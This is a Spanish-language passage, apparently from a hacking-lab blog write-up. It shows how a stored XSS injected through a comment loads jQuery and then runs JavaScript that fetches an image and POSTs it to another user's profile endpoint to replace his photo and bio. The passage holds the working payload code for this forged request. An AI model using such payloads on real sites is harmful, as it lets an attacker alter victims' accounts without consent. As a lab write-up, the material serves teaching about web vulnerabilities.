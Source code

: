 Una vez enviado el comentario con la inclusión del *jQuery*, verificamos en la pestaña de Network que lo haya cargado.

Efectivamente fue cargado desde el sitio que le indicamos anteriormente.

![](images/blogHackLab/jqueryNetwork.png)

#### Creando la función

Como ya tenemos el vector de ataque listo, faltaría crear la función que nos permita modificar la foto de perfil de pepe.
Para esto intentaremos replicar la subida de archivos que vimos en _[Primera aproximación](#Primera_aproximación)_. Con la intención de simplificar la sintaxis, para crear la función vamos a aprovechar el *jQuery* que cargamos previamente.

```js
const formData = new FormData()
formData.append("bio", "Soy un actor")
formData.append("profile_pic", file, file.name)

$.ajax({
	url: `${window.location.href}/profile`,
	type: "POST",
	data: formData,
	contentType: false,
	processData: false,
});
```

El problema viene cuando necesitamos obtener la imagen a enviar.
Lo que podemos hacer es obtener una imagen de *Internet* con [`fetch`](https://developer.mozilla.org/es/docs/Web/API/Window/fetch) y transformarla a un objeto tipo [File](https://developer.mozilla.org/es/docs/Web/API/File).

```js
let response = await fetch('https://encrypted-tbn3.gstatic.com/images?q=tbn:ANd9GcRpkHxWQRI_w5AJsHnqb6p1IQ7jZtSZ8qb1yg-p_Tt0LatYzWc6')
let data = await response.blob()
let metadata = {
	type: 'image/jpeg'
}
let file = new File([data], "jimCarrey.jpg", metadata)
```
